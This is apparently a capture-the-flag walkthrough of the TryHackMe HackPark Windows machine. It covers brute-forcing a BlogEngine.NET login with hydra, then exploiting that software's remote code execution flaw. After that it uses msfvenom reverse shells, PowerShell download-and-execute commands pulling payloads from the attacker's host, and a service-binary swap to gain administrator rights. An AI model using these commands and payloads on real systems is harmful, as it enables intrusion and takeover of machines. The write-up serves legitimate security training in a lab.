

# HackPark - TryHackMe

# Recon Stage

The target machine is running a webserver on the default port 80:


Guessing the directory /admin we are redirected to a login page:


Here we will begin checking for weak admin passwords, especially seeming as the site looks underdeveloped

### Brute-Forcing Login

Trying out a random login allows us to see what POST request parameters are being used:


The username is given in the field `ctl00$MainContent$LoginUser$UserName` and password in `ctl00$MainContent$LoginUser$Password`

Now, using hydra and the rockyou.txt wordlist, I perform a dictionary attack with the username admin:



After some time we find a password. I login and head to the /admin directory we found before:


Here we have full admin access to the blogengine panel, but, we want to see if we can compromise the machine. I head over to the 'About' section to try and get a view of the software running and see if there are any exploits:


As you can see the webserver is running BlogEngine.NET version 3.3.6.0. Okay, let's see if there are any public exploits for this version:


From this it seems there is an issue within this specific version 3.3.6 which could allow for remote code execution. This is likely to be our attack vector into the machine.


## Exploit

I am going to mirror (copy) the exploit over to my working directory so I can take a look and hopefully run it against the target:


I edit the exploit code to include my local ip address and open up a tcp listener:


I rename the file to PostView.ascx as described within the attack description:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ mv 46353.cs PostView.ascx 
```

I open up the dashboard again and edit the current post, uploading the payload:


I then open up the relevant URL to launch the payload and receive a reverse TCP shell:


## Privilege Escalation with Metasploit

I create a meterpreter shell by creating a new payload using msfvenom:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.1.148 LPORT=4441 -f exe > meterpreter.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

I then use the SimpleHTTPServer python module to host this:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Start up metasploit with the correct handler and options:

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload payload/windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.9.1.148
msf6 exploit(multi/handler) > set LPORT 4441
LPORT => 4441
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.1.148:4441 
```

I then download and execute the new payload in C:/Windows/Temp on the target machine:

```
C:\Windows\Temp>powershell /c "Invoke-WebRequest -Uri 'http://10.9.1.148:8000/meterpreter.exe' -OutFile '/Windows/Temp/meterpreter.exe'"
c:\Windows\Temp>start meterpreter.exe
```

And now we have a meterpreter session!


Now I search through all services using the following command, in order to find anything we could use to priv esc:

`wmic service get name,startname,pathname,startmode`

And within the list I found a weird service:

`WindowsScheduler          C:\PROGRA~2\SYSTEM~1\WService.exe                                                  Auto       LocalSystem`

I navigate to the directory and initially considered overwriting WService.exe, but I do not have permissions to restart the service. However, upon inspection of the logs, we can see that this service regularly starts Message.exe as an admin:


I then recompiled a new payload for meterpreter shell using msfvenom but changing the port to 4440, and uploaded it in place of Message.exe:

```
meterpreter > upload /home/kali/TryHackMe/HackPark/meterpreter.exe ./Message.exe
[*] uploading  : /home/kali/TryHackMe/HackPark/meterpreter.exe -> ./Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/TryHackMe/HackPark/meterpreter.exe -> ./Message.exe
[*] uploaded   : /home/kali/TryHackMe/HackPark/meterpreter.exe -> ./Message.exe
```

Start up another meterpreter handler, and wholla, in our new meterpreter shell, we are admin:

```
C:\PROGRA~2>whoami
whoami
hackpark\administrator
```

Now we can find the flags


## Privilege Escalation without Metasploit

I then create a new more stable reverse TCP shell payload using msfvenom:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.148 LPORT=4443 -f exe > shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

and host this on my local machine using ``python -m SimpleHTTPServer`` so that we can download it onto the target

On the target machine I navigate to C:/Windows/Temp and run the following commands to download the payload from the webserver and execute it:

```
c:\Windows\Temp>powershell /c "Invoke-WebRequest -Uri 'http://10.9.1.148:8000/shell.exe' -OutFile '/Windows/Temp/shell.exe'"
c:\Windows\Temp>start shell.exe
```

I then repeat the same process of uploading and executing with winPEAS.bat (which can be found [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat)) in order to find a vector for privesc. We find the same attack vector as before:


